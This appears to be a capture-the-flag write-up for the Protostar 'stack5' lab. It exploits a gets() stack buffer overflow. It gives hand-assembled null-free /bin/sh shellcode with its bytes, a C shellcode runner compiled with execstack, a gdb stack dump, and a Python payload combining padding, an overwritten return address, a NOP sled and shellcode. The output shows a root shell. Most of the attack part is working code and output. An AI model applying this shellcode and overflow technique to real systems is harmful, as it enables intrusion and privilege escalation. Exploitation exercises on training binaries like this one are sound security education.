 # STACK 5

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);           // <- Buffer Overflow
}
```

## IDEA

- We can see that is code has Buffer Overflow vulnerability, but we does not have win or get shell function, so, I write my own shellcode by disassemble from nasm code and put it in stack of program with BOF vuln and execute shellcode to get the shell.

## DETAIL

- This assembly code which we use to inject to stack must not have 0x0 byte (or NULL byte), because we read the input as a string, so if it has 0x0 byte, the gets function just terminated at that byte. 

```asm
section .text:
	global _start:
_start:
  push 	0xb
  pop 	eax                ; mov 	eax, 0xb
  xor 	edx, edx     	   ; mov 	edx, 0

  push 	edx                ; mov 	eax, "/bin/sh"
  push 	0x68732f2f
  push 	0x6e69622f
  mov 	ebx, esp

  xor 	ecx, ecx           ; mov 	ecx, 0
  int 	0x80
```

- Objdump and I have shellcode of this assembly file

```asm
λ ~ \ objdump -M intel -D shellcode

shellcode:     file format elf32-i386


Disassembly of section .text::

08049000 <_start>:
 8049000:       6a 0b                   push   0xb
 8049002:       58                      pop    eax
 8049003:       31 d2                   xor    edx,edx
 8049005:       52                      push   edx
 8049006:       68 2f 2f 73 68          push   0x68732f2f
 804900b:       68 2f 62 69 6e          push   0x6e69622f
 8049010:       89 e3                   mov    ebx,esp
 8049012:       31 c9                   xor    ecx,ecx
 8049014:       cd 80                   int    0x80
```

- The shellcode

```
\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

- We can play something fun with this shellcode in C

```c
// filename: vuln.c
#include<stdio.h>

int main()
{
  char shellcode[] = "\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";
   ( (void(*)())shellcode )();
  return 0;
}

// gcc -m32 -z execstack -fno-stack-protector -o vuln vuln.c
```

- Compile with flag execstack to enable stack execute shellcode and disable the stack protector to make shellcode work.

```
λ ~ \ gcc -m32 -z execstack -fno-stack-protector -o vuln vuln.c
λ ~ \ ./vuln
$ ls
vuln  vuln.c
$
```

- So the shellcode works pretty well. Let's check some informations and make some payload to exploit the vulnerability.

- The shellcode attack can understand by this below text

```
|                     from this                   to                    this
|                  .  .  .  .  .                                   .   .   .   .   .
|          +----------------------------+                   +----------------------------+
|          |                            |                   |                            |
|          |                            |                   |                            |
|          |    Content of function     |                   |    padding "aaaaaaaaa"     |
|          |                            |                   |                            |
S          |                            |                   |                            |
t          +----------------------------+                   +----------------------------+
a          |        EBP  Reserve        |                   |       padding "aaaa"       |
c          +----------------------------+         ->        +----------------------------+
k          |            RET             |                   |     address of RET + 75    |
|          +----------------------------+                   +----------------------------+
|          |                            |                   |                            |
|          |                            |                   | a bunch of "\x90" nopcode  |
|          |       some argument        |                   |     and after nopcode      |
|          |      of this function      |                   |        is shellcode        |
|          |                            |                   |                            |
|          +----------------------------+                   +----------------------------+
|                  .  .  .  .  .                                   .   .   .   .   .

```

```
(gdb) run
Starting program: /opt/protostar/bin/stack5

Breakpoint 1, main (argc=1, argv=0xbffffd54) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
0x080483c4 <main+0>:     55     push   ebp
0x080483c5 <main+1>:     89 e5  mov    ebp,esp
0x080483c7 <main+3>:     83 e4 f0       and    esp,0xfffffff0
0x080483ca <main+6>:     83 ec 50       sub    esp,0x50
(gdb) x/40xw $esp
0xbffffcac:     0xb7eadc76      0x00000001      0xbffffd54      0xbffffd5c
0xbffffcbc:     0xb7fe1848      0xbffffd10      0xffffffff      0xb7ffeff4
0xbffffccc:     0x08048232      0x00000001      0xbffffd10      0xb7ff0626
0xbffffcdc:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffffcec:     0x00000000      0xbffffd28      0xfc6b4546      0xd62a5356
0xbffffcfc:     0x00000000      0x00000000      0x00000000      0x00000001
0xbffffd0c:     0x08048310      0x00000000      0xb7ff6210      0xb7eadb9b
0xbffffd1c:     0xb7ffeff4      0x00000001      0x08048310      0x00000000
0xbffffd2c:     0x08048331      0x080483c4      0x00000001      0xbffffd54
0xbffffd3c:     0x080483f0      0x080483e0      0xb7ff1040      0xbffffd4c
```

- Before run into main function, I check the top of stack and we can see that the ret of main has address `0xbffffcac`, so I will place this with `0xbffffcac + 75 = 0xbffffcf7` and padding after RET is 200 bytes "\x90" that is nopcode, the purpose of this stuff is that address of main's RET can vary in a range address at each time we run the program. So we add 200 bytes of nopcode to increase the possibility to return to nopcode which will gled to shellcode.  

- Then I find offset to overwrite and finish the exploit file.

## EXPLOIT


```python
# filename: exp.py

payload = "a"*76

ret = "\xf7\xfc\xff\xbf"
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
payload +=  ret + "\x90"*200 + shellcode

print(payload)

# python epx.py > temp.pwn
# (cat temp.pwn; cat) | ./stack5
```

## RESULT

```
root@protostar:/opt/protostar/bin# (cat temp.pwn; cat) | ./stack5
ls
exp.py  final0  final1  final2  format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7  temp.pwn
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```